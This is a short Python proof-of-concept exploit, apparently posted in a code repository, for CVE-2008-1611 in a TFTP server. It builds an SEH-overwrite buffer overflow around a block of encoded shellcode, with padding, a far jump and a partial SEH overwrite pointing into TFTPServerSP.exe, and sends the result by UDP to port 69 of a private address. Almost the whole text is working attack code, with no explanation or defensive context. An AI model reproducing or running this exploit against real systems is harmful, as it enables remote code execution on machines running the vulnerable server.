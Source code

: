 POC
---

    import struct
    import socket

    # CVE-2008-1611 PoC written by Axua

    prefix = "\x00\x02\x2f\x2e\x3a\x2f"
    suffix = "\x00\x00\x00\x6e\x65\x74\x61\x73\x63\x69\x69\x00"

    shellcode = (
    "\xbb\x1b\xd0\x39\x36\xdd\xc7\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
    "\x52\x31\x58\x12\x03\x58\x12\x83\xdb\xd4\xdb\xc3\x27\x3c\x99"
    "\x2c\xd7\xbd\xfe\xa5\x32\x8c\x3e\xd1\x37\xbf\x8e\x91\x15\x4c"
    "\x64\xf7\x8d\xc7\x08\xd0\xa2\x60\xa6\x06\x8d\x71\x9b\x7b\x8c"
    "\xf1\xe6\xaf\x6e\xcb\x28\xa2\x6f\x0c\x54\x4f\x3d\xc5\x12\xe2"
    "\xd1\x62\x6e\x3f\x5a\x38\x7e\x47\xbf\x89\x81\x66\x6e\x81\xdb"
    "\xa8\x91\x46\x50\xe1\x89\x8b\x5d\xbb\x22\x7f\x29\x3a\xe2\xb1"
    "\xd2\x91\xcb\x7d\x21\xeb\x0c\xb9\xda\x9e\x64\xb9\x67\x99\xb3"
    "\xc3\xb3\x2c\x27\x63\x37\x96\x83\x95\x94\x41\x40\x99\x51\x05"
    "\x0e\xbe\x64\xca\x25\xba\xed\xed\xe9\x4a\xb5\xc9\x2d\x16\x6d"
    "\x73\x74\xf2\xc0\x8c\x66\x5d\xbc\x28\xed\x70\xa9\x40\xac\x1c"
    "\x1e\x69\x4e\xdd\x08\xfa\x3d\xef\x97\x50\xa9\x43\x5f\x7f\x2e"
    "\xa3\x4a\xc7\xa0\x5a\x75\x38\xe9\x98\x21\x68\x81\x09\x4a\xe3"
    "\x51\xb5\x9f\xa4\x01\x19\x70\x05\xf1\xd9\x20\xed\x1b\xd6\x1f"
    "\x0d\x24\x3c\x08\xa4\xdf\xd7\xf7\x91\xbd\x33\x90\xe3\x41\x2d"
    "\x3c\x6d\xa7\x27\xac\x3b\x70\xd0\x55\x66\x0a\x41\x99\xbc\x77"
    "\x41\x11\x33\x88\x0c\xd2\x3e\x9a\xf9\x12\x75\xc0\xac\x2d\xa3"
    "\x6c\x32\xbf\x28\x6c\x3d\xdc\xe6\x3b\x6a\x12\xff\xa9\x86\x0d"
    "\xa9\xcf\x5a\xcb\x92\x4b\x81\x28\x1c\x52\x44\x14\x3a\x44\x90"
    "\x95\x06\x30\x4c\xc0\xd0\xee\x2a\xba\x92\x58\xe5\x11\x7d\x0c"
    "\x70\x5a\xbe\x4a\x7d\xb7\x48\xb2\xcc\x6e\x0d\xcd\xe1\xe6\x99"
    "\xb6\x1f\x97\x66\x6d\xa4\xa9\x97\xbf\x31\x3d\x0e\x2a\x78\x23"
    "\xb1\x81\xbf\x5a\x32\x23\x40\x99\x2a\x46\x45\xe5\xec\xbb\x37"
    "\x76\x99\xbb\xe4\x77\x88")

    padding1 = "\x41" * 236
    padding2 = "\x42" * (984 - len(shellcode))

    far_jump = "\xE9\x23\xFC\xFF\xFF"

    nseh = "\xEB\xF9\x90\x90" # jmp short -8
    seh = "\x8c\x2b\x40" # POP EDI; POP EBP; RET; @ TFTPServerSP.exe # partial overwrite 0x00402b8c

    payload =  prefix
    payload += padding1
    payload += shellcode
    payload += padding2
    payload += far_jump
    payload += nseh
    payload += seh
    payload += suffix

    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.sendto(payload, ("192.168.99.155", 69))